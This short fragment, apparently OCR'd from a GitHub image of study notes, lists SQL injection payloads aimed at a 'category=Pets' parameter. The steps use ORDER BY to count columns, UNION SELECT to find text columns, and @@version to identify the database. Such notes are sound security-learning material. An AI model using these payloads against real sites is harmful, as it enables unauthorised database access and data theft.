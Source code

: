 #Determine number of col
category=Pets' ORDER BY 3--

#Determine which col contain text data
category=Pets' UNION SELECT 'A','B' FROM DUAL--

#Determine its type and version
category=Pets' union select @@version,null -- fd
